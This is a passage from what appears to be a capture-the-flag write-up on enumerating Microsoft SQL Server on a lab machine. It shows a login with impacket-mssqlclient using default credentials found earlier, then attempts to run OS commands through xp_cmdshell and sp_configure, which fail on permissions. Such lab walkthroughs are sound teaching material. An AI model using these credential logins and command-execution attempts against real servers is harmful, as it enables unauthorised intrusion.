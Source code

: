 
### Enumerating MSSQL
---
We have found default credentials for the database, so we will connect to MSSQL using `impacket-mssqlclient`.

**Explanation:**

- **MSSQL (Microsoft SQL Server):** MSSQL is a relational database management system (RDBMS) developed by Microsoft. It is widely used in enterprise environments to store and manage large amounts of data, supporting complex queries, transactions, and data integrity.
    
- **impacket-mssqlclient:** `impacket-mssqlclient` is a tool from the Impacket suite, which provides scripts and utilities to interact with various network protocols in Windows environments. `mssqlclient` allows us to connect to an MSSQL server using the obtained credentials, enabling actions like executing SQL queries, exploiting SQL injection vulnerabilities, or accessing sensitive data stored in the database.

````powershell
❯ impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)> 
````

We tried running commands but couldn’t execute any, so we’ll need to try other methods.

````bash
❯ impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)> xp_cmdshell whoami
ERROR(DC\SQLMOCK): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL (PublicUser  guest@master)> EXECUTE sp_configure 'show advanced options', 1
ERROR(DC\SQLMOCK): Line 105: User does not have permission to perform this action.
SQL (PublicUser  guest@master)> 
````
